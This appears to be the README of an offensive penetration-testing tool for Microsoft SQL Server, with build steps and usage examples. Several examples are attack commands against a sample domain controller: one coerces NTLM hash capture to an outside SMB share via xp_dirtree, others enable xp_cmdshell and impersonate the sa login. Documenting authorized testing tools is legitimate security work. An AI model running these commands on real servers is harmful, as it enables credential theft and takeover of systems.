 # MSSQL Security Assessment Tool

A cross-platform, fully-featured offensive security utility that streamlines enumeration, exploitation, and post-exploitation of Microsoft SQL Server environments.

## Key Features

• **Deep Enumeration** – Quickly map out servers, databases, tables, users, roles, and permissions.
• **Privilege Escalation Work-flows** – Identify and exploit mis-configurations (e.g., `EXECUTE AS`, impersonation, role chaining).
• **Credential Hunting** – Automatically search for credential artefacts, hashes, connection strings, and secrets.
• **Command / Payload Execution** – One-click helpers for `xp_cmdshell`, OLE Automation, `xp_dirtree`, and linked-server abuse.
• **Session Logging & Reporting** – Generates HTML & JSON reports, structured data exports, and timeline logs for every assessment.
• **Self-Contained Builds** – Single-file executables for Windows & Linux via the provided `build.sh` helper.

## Requirements

* .NET 6 SDK *(Linux, macOS, or Windows)*
* Network access to the target SQL Server instance

> The tool relies on `System.Data.SqlClient` (included via NuGet) and **does not** require any third-party binaries.

## Quick Start

```bash
#–– Clone & build (Linux example)
$ git clone [https://github.com/Greylorn/MSSQL.git](https://github.com/Greylorn/MSSQL.git)
$ cd MSSQL-Tool/MSSQL
$ ./build.sh linux-x64           # produces bin/publish-linux-x64/MSSQL

#–– Or run directly with dotnet
$ dotnet run --project MSSQL.csproj -- --server dc01.corp1.com --action enum --log
```

## Usage Examples

```bash
# Quick enumeration with logging
MSSQL --server dc01.corp1.com --action enum --log

# Execute arbitrary query
MSSQL --server dc01.corp1.com --action query --sql "SELECT SYSTEM_USER;"

# Trigger xp_dirtree to capture NTLM
MSSQL --server dc01.corp1.com --action dirtree --share "\\\\192.168.49.67\\share"

# Enable & execute xp_cmdshell
MSSQL --server dc01.corp1.com --action xp_cmd --cmd "whoami"

# Impersonate sa
MSSQL --server dc01.corp1.com --action impersonate_login --target sa
```

Use `--help` or run the program without arguments to display the full interactive menu.

## Building Self-Contained Binaries

The helper script wraps `dotnet publish` to create a **single-file, self-contained** executable.

```bash
# Windows x64 EXE (default)
./build.sh

# Windows x86
./build.sh win-x86

# Linux x64
./build.sh linux-x64
```

Resulting binaries are written to `bin/publish-<RID>/`.

## Project Structure

```
MSSQL/
├── Program.cs                # Main source (enumeration & attack logic)
├── MSSQL.csproj              # .NET project file (targets net6.0)
├── build.sh                  # Cross-platform single-file build helper
├── additional_features.md    # Roadmap & nice-to-have ideas
└── ...                       # Reports & session artifacts (git-ignored)
```

## Disclaimer

This software is provided **for educational and authorized penetration-testing purposes only**. The authors assume **no liability** for misuse or damage caused by this tool. Ensure you have **explicit written permission** before targeting any system.

## License

Distributed under the MIT License. See `LICENSE` for more information.
